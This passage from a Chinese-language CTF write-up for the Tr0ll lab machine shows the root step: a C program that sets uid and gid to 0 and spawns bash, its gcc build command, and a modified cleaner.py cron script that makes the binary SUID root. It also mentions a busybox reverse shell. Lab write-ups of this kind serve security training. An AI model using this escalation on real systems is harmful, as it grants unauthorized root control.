int main()
{
     setgid(0);
     setuid(0);
     system("/bin/bash");
}
```

编译命令如下，建议最好在目标靶机上完成编译，目标靶机是32位系统，而且存在gcc。

```bash
gcc -o getroot getroot.c
```

最终修改cleaner.py，然后等待2min后执行/var/tmp/getroot即可。注意本台靶机在/run/shm下执行getroot可能会失败，因为/run/shm以 nosuid 挂载，意味着该目录下的可执行文件在运行时会忽略其 suid和 sgid权限位，这是我在该[wp](https://devl00p.github.io/posts/Solution-du-CTF-Tr0ll/)下发现的。

```bash
#!/usr/bin/env python
import os
import sys
try:
     os.system('chown root.root /var/tmp/getroot; chmod 4755 /var/tmp/getroot')
except:
     sys.exit()
```

这里我通过busybox反弹shell成功get root shell。


